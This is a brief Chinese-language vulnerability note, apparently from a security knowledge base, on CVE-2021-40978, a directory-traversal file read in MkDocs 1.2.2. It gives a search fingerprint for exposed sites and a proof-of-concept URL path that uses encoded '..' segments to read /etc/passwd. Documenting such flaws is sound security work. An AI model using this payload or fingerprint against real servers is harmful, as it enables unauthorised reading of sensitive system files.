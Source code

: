 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

<a-checkbox checked>Mkdocs 1.2.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="My Docs"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635243987958-b04a962a-3cd6-44d6-b422-384fbae3be46.png)

验证POC

```php
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635244110624-38dc3b57-ca8d-4fa1-b073-73b059a6d4be.png)